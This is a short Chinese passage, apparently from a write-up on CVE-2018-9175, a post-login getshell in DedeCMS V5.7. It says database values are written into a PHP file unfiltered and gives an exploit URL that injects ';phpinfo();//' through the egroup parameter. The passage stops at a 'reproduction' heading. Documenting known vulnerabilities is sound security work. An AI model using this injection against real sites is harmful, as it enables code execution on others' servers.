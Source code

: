 可以看到，直接从数据库中读取并写入php文件中，从数据库中取出后并没有经过过滤。

将shell写进数据库中

    http://0-sec.org/dede/stepselect_main.php?action=addenum_save&ename=123&egroup=;phpinfo();//&islogin=1

![](resource/(CVE-2018-9175)DedecmsV5.7后台的两处getshell/media/rId27.png)

### 复现
